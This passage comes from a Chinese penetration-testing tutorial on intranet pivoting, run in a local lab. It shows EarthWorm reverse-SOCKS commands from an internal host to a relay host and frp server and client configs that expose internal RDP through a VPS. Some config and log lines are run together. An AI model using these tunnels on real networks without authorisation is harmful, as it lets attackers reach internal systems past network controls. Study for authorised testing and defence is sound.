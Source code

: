 在内网主机 C 上，启动 socks5 服务，并反弹到 B 主机的 6666 端口上

```
ew -s rssocks -d 192.168.7.110 -e 6666
```

```
> .\ew_for_Win.exe -s rssocks -d 192.168.7.110 -e 6666
rssocks 192.168.7.110:6666 <--[10000 usec]--> socks server
```

至此，socks5 代理 VPS 的 1080 端口就会访问到内网资源了。

另外还有个 ew 的升级版工具叫 termite，不过比较遗憾的是 termite 在两年前也已经暂停更新了，这里也就不再大费周章的记录它了。

# 0x11 frp 的使用

## 1、介绍

相较于前一篇文章介绍的 ew 的年代久远，frp 就好的多了，基本上隔几天就会发布新的版本，最新的一版更新还就在几天前。

在实战中，大家较多使用的也是 frp，frp 项目地址：[https://github.com/fatedier/frp](https://github.com/fatedier/frp)

至于下载安装直接在项目的 releases 里下载自己对应的系统版本就行。

## 2、使用

官方使用文档：[https://gofrp.org/docs/](https://gofrp.org/docs/)

frp 分成服务端和客户端，分别叫 frps 和 frpc，配置文件分别对应 frps.ini 和 frpc.ini

> 以下环境均为本地环境，VPS IP 为 172.16.214.52，目标主机 IP 为 192.168.7.110

### a、内网端口穿透

 场景：内网主机可出网，想从公网访问内网主机的 3389 端口

在 VPS 上开启服务端，这里以 kali 为例，首先修改配置文件 frps.ini

```
[common]bind_port = 4444
```

然后启动服务端

```
frps -c frps.ini
```

```
> ./frps -c frps.ini2021/06/09 03:45:03 [I] [root.go:200] frps uses config file: frps.ini2021/06/09 03:45:03 [I] [service.go:192] frps tcp listen on 0.0.0.0:44442021/06/09 03:45:03 [I] [root.go:209] frps started successfully
```

配置客户端配置文件

```
[common]# 服务端 IPserver_addr = vps_ip# 服务端端口server_port = 4444[rdp]type = tcplocal_ip = 127.0.0.1local_port = 3389# 连接 vps 的端口remote_port = 3389
```
